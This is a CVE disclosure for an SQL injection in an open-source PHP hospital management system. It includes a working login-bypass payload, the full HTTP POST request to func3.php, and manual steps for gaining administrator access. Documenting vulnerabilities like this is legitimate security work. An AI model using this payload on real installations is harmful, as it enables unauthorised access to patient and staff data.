


### CVE Disclosures

Author: Frank Zeng 

### CVE-ID: **CVE-2022-46093**

SQL injection vulnerability in Hospital Management System via **a crafted POST request** to /Hospital-Management-System-master/func3.php.

Although the user name is restricted on the front page of the administrator login, the password is not effectively restricted and validated, allowing the attacker to use the vulnerable code for sql injection attacks. Then,attackers can use the administrator permission to steal the information of hospitals, doctors, and patients, and perform some privileged operations, such as managing doctors.

**Payload:** username1=admin%40admin.com&password2=1%27+or+username%3D%27admin&adsub=Login

**HTTP Request:**

```http
POST /Hospital-Management-System-master/func3.php HTTP/1.1
Host: localhost
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Hospital-Management-System-master/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=99cunoplmskd7cjgrmp5l9unbt
Connection: close

username1=admin%40admin.com&password2=1%27+or+username%3D%27admin&adsub=Login
```

**Vendors:** https://github.com/kishan0725/Hospital-Management-System

**Vulnerability url:** /Hospital-Management-System-master/index.php

**Vulnerability location:** /Hospital-Management-System-master/fun3.php

**Proof：**




#### Supplementary information：

**The attack process of manually entering the payload in the login box:**



The sql statement executed on the server is as follows: select * from admintb where username='admin' and password='1' or username='admin';


Enter in the User Name column of the login box: **admin@admin.com**
Enter in the Password column of the login box: **1' or username='admin**


**Request package**：Bypass checking the password


At this time, the password authentication is bypassed and the administrator account is successfully logged in.


Attackers can use the administrator permission to steal the information of hospitals, doctors, and patients, and perform some privileged operations, such as managing doctors.


